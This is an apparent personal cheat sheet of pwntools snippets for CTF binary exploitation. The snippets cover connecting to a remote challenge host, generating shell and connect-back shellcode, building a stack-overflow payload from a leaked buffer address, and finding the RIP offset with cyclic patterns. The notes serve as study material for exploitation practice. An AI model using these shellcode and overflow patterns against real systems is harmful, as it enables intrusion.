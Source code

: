 # starting

```python
target = gdb.debug('./sleigh')
target = process("./sleigh")
target = remote("206.189.24.71",30384 )
```

# sending an receiving

```python
target.recvuntil(b">")
target.sendline(b"1")

target.sendafter('hello', payload)

rsp = target.recvuntil(b">")

target.interactive()
print(target.recvall())
```


# crafting payloads
```python
context.update(arch='amd64', os='linux')

shellcode = shellcraft.sh()
shellcode = shellcraft.connect("127.0.0.1", 9999, network='ipv4')

# packing the payload to bytes
payload = asm(shellcode)
```

# generating payload

```python
payload = b"\x41" * 64 + b"\x00" * 8
payload += new_buffer_packet
payload += asm(shellcode)
payload += b"\x00" * 8
```

# printing, converting and helpful commands

printing infos
```python
info("Getting address of vulenrable buffer...")
info("Vulnerable buffer address: %s" % rsp[64:78])
```

getting hex address out of string, convert it to int and make caluclations on it

```python
buffer_addr = rsp[64:78]
new_buff_addr = int(buffer_addr,16) + 0x50
```

and convert it back to shellcode (also swap endianes)
```python
new_buffer_packet = p64(new_buff_addr)
new_buffer_packet = p32(new_buff_addr) # if 64 or 32 depends on address size
```

printing bytes to hex string to use it in gdb

```python
payload = asm(shellcode)
pay = '\\x' + '\\x'.join('{:02x}'.format(x) for x in payload)
print(pay)
```

# attach gdb and run commands

[[../Dynamic Analyses/pwndbg]]

```python
gdb.attach(target,gdbscript='''
set follow-fork-mode child
continue
''')
```

# use coredump to find padding

```python
# cylic
g = cyclic_gen()
payload = g.get(200)


# sending and receiving stuff
target.sendafter('>', payload)

target.wait()
ip_offset = cyclic_find(target.corefile.read(target.corefile.sp, 4))  # x64
info('located EIP/RIP offset at {a}'.format(a=ip_offset))
```